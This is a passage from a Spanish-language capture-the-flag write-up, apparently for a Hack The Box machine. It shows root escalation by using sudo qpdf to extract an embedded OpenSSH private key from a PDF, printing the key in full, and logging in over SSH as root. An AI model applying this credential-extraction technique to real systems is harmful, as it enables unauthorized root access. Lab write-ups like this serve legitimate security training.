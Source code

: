 Profundizamos en la ayuda del parámetro `--show-attachment`.

```
sudo qpdf --help=--show-attachment

--show-attachment=key

Write the contents of the specified attachment to standard
output as binary data. Get the key with --list-attachments.

For detailed help, visit the qpdf manual: https://qpdf.readthedocs.io
```

Listamos las `keys` de los archivos adjuntos y descubrimos que no es mas que el nombre del archivo adjunto.

```
sudo qpdf --list-attachments root-id_rsa.pdf

id_rsa -> 7,0
```

```
sudo qpdf --show-attachment=id_rsa root-id_rsa.pdf

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Añadimos esta clave privada a un archivo en nuestra máquina local de nombre `root-id_rsa`, le damos los permisos adecuados para poder utilizarlo como fichero de identidad y nos conectamos a la máquina por ssh como root.

```
nano root-id_rsa
chmod 600 root-id_rsa
ssh root@10.129.189.64 -i root-id_rsa
```

La autenticación es exitosa, solo nos queda leer el `root.txt` y habremos completado la máquina.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.